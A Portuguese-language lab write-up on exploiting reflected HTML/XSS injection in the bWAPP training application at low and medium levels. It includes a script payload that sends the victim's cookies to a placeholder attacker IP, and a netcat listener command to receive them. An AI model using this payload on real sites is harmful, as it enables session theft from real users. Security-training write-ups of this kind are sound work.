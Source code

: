 # bWAPP - A1: Injection - HTML Injection - Reflected (GET)

Este write-up descreve a exploração da vulnerabilidade "HTML Injection - Reflected (GET)" nos níveis low e medium do bWAPP. Vamos utilizar dois payloads diferentes para demonstrar como um ataque de Cross-Site Scripting (XSS) pode ser executado e como os cookies podem ser capturados.

## Nível Low

### Exploração

1. **Payload**:
   ```html
   <script>alert('XSS');</script>
   ```
   Este payload cria um alerta no navegador, demonstrando a execução de um script JavaScript.

2. **Execução**:
   - Insira o payload diretamente no campo vulnerável ou na URL, se aplicável.
   - Quando a página é carregada ou o link é acessado, o script será executado, resultando em um alerta.

## Nível Medium

### Exploração

1. **Preparação**:
   - Inicie o `netcat` (nc) no seu servidor para capturar os cookies:
     ```bash
     nc -lvnp 8000
     ```
   - Substitua `SEU_IP_PUBLICO` pelo endereço IP do seu servidor no payload.

2. **Payload**:
   ```html
   <script>document.location='http://SEU_IP_PUBLICO:8000/?cookie=' + document.cookie;</script>
   ```
   Este script redireciona a requisição para o seu servidor, incluindo os cookies como parte da URL.

3. **URL Encoding**:
   - É necessário realizar o encode da URL para garantir que o script seja transmitido corretamente através da URL. Ferramentas online de URL encoding podem ser usadas para isso.

4. **Execução**:
   - Insira a URL codificada no campo vulnerável ou na URL.
   - Quando a página é carregada ou o link é acessado, o script será executado, enviando os cookies para o seu servidor.

5. **Captura de Cookies**:
   - No seu servidor, você verá os cookies capturados na saída do `netcat`.

### Nota Importante

Os payloads para os níveis low e medium são intercambiáveis, mas o nível de proteção do site pode requerer adaptações específicas. Este exemplo é uma das várias maneiras de explorar a vulnerabilidade.

## Considerações de Segurança

- Este write-up é para fins educacionais em um ambiente controlado e com permissão.
- Nunca utilize estas técnicas em websites ou sistemas sem autorização explícita.
- A compreensão destas vulnerabilidades é crucial para desenvolver aplicações mais seguras.
